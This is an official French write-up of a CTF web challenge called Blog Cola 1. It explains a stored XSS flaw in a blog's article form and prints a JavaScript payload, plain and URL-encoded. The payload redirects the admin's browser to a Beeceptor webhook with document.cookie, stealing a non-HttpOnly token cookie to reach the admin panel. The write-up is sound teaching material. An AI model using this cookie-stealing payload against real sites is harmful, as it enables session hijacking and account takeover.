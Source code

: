# Blog Cola 1 WU officiel

## Description du challenge et objectif

Ce challenge a pour objectif d’introduire les failles présentes sur les clients web. Pour ce faire, vous avez accès à un site web de Popa Cola : Blog Cola.

C’est par le biais de ce site que l’entreprise concurrente dénigre Freizh Cola. Il faut donc prendre le contrôle du site afin de mettre un terme à cette mauvaise publicité.

Pour cela, il sera nécessaire de devenir administrateur du site web, ce qui donnera accès au panneau d'administration (qui affiche le flag).

## Faille de sécurité

La faille présente dans ce site web est une [XSS Stockée](https://fr.wikipedia.org/wiki/Cross-site_scripting#XSS_stock%C3%A9_(ou_permanent)). Ce type de faille permet d’injecter du code JavaScript dans une page. Ce code est ensuite interprété par tous les clients qui la visite. En fonction du code JavaScript injecté, il est possible de faire beaucoup de choses. Dans notre cas, il suffit de voler le cookie `token` de l’admin, qui sera accessible au moment où il visionnera la page. Grâce à ce cookie, il sera possible de s’authentifier et d’accéder à la page admin.

Il est important de noter que le vol du cookie n’est possible que parce qu’il n’est pas en `HttpOnly`.

## Exploitation

La première étape consiste à identifier le point d’injection de notre XSS. Ici, le site est assez petit, donc essayons de voir ce qu’il se passe quand on crée un nouvel article avec de la mise en forme, par exemple du gras et de l’italique.

![article gras et italique](./wu/image-3.png)

Il est possible de voir que la requête envoyée par notre navigateur comprend du code HTML (ici `p`, `em` et `strong`).

![code html](./wu/image-4.png)

En regardant le nouvel article créé, on voit bien que rien n’a été filtré.

![nouvel article](./wu/image-5.png)

Maintenant que nous avons vu comment injecter du HTML, essayons d’en tirer quelque chose, par exemple, exécuter le code JavaScript `alert(1)`.

Pour cela, le plus simple est d’envoyer une requête de création et de l’éditer pour en renvoyer une seconde qui contiendra ce que l’on veut.

![aa](./wu/image-8.png)

![req](./wu/image-9.png)

Clic droit > modifier et renvoyer

![modif](./wu/image-11.png)

(Il faut faire attention à bien modifier le titre aussi.)

En retournant sur la page d’accueil, on peut voir que notre JavaScript a bien été exécuté.

![alert](./wu/image-12.png)

Il est maintenant temps de récupérer le cookie. Pour ce faire, JavaScript permet d’accéder à tous les cookies non-HttpOnly via la variable `document.cookie`. Pour recevoir ce cookie, il est nécessaire de mettre en place une webhook. Par exemple, on peut utiliser [Beeceptor](https://beeceptor.com/).

J’utiliserai l’endpoint à l’URL `https://qsdfze.free.beeceptor.com`

![beeceptor](./wu/image-13.png)

Pour simplifier l’exploit, je vais utiliser une redirection du navigateur de la cible vers `https://beecptor?cookie=+document.cookie`. Cette technique est facile à mettre en œuvre mais très visible dans les cas d’attaques réelles.

Le code JavaScript à exécuter est donc :

```js
window.location = "https://qsdfze.free.beeceptor.com?cookie=" + document.cookie
```

Il ne reste plus qu’à utiliser la même technique que précédemment, mais avec ce nouveau payload à la place du `alert(1)`. Attention : comme notre payload contient des `?`, `&`, `%` ou `=`, il est nécessaire de l’encoder en URL. Version URL encodée disponible [ici](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=d2luZG93LmxvY2F0aW9uID0gImh0dHBzOi8vcXNkZnplLmZyZWUuYmVlY2VwdG9yLmNvbT9jb29raWU9IiArIGRvY3VtZW50LmNvb2tpZQ).

Payload final :

```html
title=bbbbb&tinyMCE=<script>window%2Elocation%20%3D%20%22https%3A%2F%2Fqsdfze%2Efree%2Ebeeceptor%2Ecom%3Fcookie%3D%22%20%2B%20document%2Ecookie</script>
```

**<!> Si vous avez déjà envoyé un `alert` auparavant, il est nécessaire de réinitialiser l’application. Le `alert` bloque le chargement de la page.**

![send payload](./wu/image-14.png)

En visitant soi-même la page principale, on peut voir qu’on est redirigé. Il ne reste plus qu’à attendre 30 secondes pour voir le token admin arriver.

![admin token](./wu/image-17.png)

Pour voir la page admin, il suffit d’ajouter le token à son navigateur et de s’y rendre.

![admin token add](./wu/image-18.png)

![admin page](./wu/image-19.png)
